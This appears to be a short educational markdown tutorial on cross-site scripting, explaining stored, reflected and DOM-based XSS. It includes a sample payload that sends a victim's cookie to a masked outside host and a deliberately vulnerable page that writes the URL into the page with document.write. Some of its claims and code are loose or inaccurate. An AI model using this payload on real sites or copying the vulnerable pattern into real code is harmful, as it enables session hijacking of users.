 #Cross-Site Scripting:

It is a type of vulnerability in which there is no proper input validation happening at client side which leads to injecting malicious script to web server which is reflected off from the server also called as reflected XSS. There can be other types of XSS attacks.

In stored XSS the malicous script being sent from browser to server gets stored in the database as part of the request and then the attacker can retrieve back those malicious scripts from the web server which is highly vulnerable.

##Types of XSS:
Cross site scritping can be classifed into 3 major categories as listed below:
* Stored/persistence XSS
* Reflected XSS
* Dom based XSS

###Stored XSS:

It is also called as persistence XSS which is considered to be very harmful XSS vulnerability. This involves attacker injecting malicious javascript code in the application which results in storing of those scripts at web server database end. Whenever any other other tries to access data in the same application then the user gets stored malicious script by querying database which is highly vulnerable.

Example :
```
<script>
   <alert>document.location="http://***.com"+document.cookie </alert>
</script>
```

###Reflected XSS:

In this XSS vulnearbility the javascript injected to the application gets reflected back and gets executed in the victims browser hence revealing crucial information(session cookie) to the attacker. It is not considered to be highly vulnearble XSS type.

###DOM based XSS:

It is an advanced and most vulnerable type of XSS attack in which web applications client side scripts write user provided data to Document Object Model(DOM) and then this data is read fro the DOM by the web application and outputted to browser. If this data is not handled properly then attacker can inject maliciuos payload which gets stored as DOM and gets executed when data is read from DOM. It becomes highly vunerable for the web application and also web application firewall and security can not find anything in the server log. 
Various object models which can be used to inject malicious payload are document.URL ,document.referrer ,document.location 

###Example of DOM based XSS attack :

```
<html>
<head>
<title>My Dashboard Demo</title>
...
</head>
Main Dashboard for
<script>
    var pos=document.URL.indexOf("context=");
    document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>

```
